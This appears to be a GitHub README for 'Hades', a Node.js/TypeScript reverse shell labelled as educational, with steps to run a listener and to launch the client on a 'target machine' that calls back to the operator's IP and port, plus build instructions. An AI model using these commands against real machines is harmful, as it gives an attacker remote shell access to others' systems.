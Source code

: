 # Hades
Simple reverse shell developed for education purposes.

This program is written in Typescript and is made to run with [Node.js](https://nodejs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
### Disclaimer
- This reverse shell is for academic purposes, the use of this software is your responsibility.
- This software is still in development, not all the features are implemented yet.

### Use with Node.js
1) Run `npm install`
2) Run `node src/main.js -a [port to listen on]` on the main machine.
3) Run `node src/main.js -c [admin's port] [admin's ip]` on a target machine.
4) Done !

### Use a compiled version 
1) Garb a compiled version of the program.
2) Run `hades -a [port to listen on]` on the main machine.
3) Run `hades -c [admin's port] [admin's ip]` on a target machine.
4) Done !

## Compile using Nexe
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Nexe](https://github.com/nexe/nexe).
4) Execute `nexe src/main.js -o bin/hades -t "linux-x64-14.15.3" -r "src/**.js"`.
5) Change `linux-x64` with the os you are using following by the [architecture](https://linuxconfig.org/what-is-my-architecture-is-my-cpu-64-bit-or-32-bit#:~:text=The%20best%20way%20to%20quickly,default%20on%20all%20Linux%20distros.) of your CPU.

Note that the program is already compiled in the `bin` directory.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Axios` - Used to send requests.
- `Body-parser` - Used to parse responses.
- `WSS` - Used for socket connections.
- `Express` - Used to setup servers.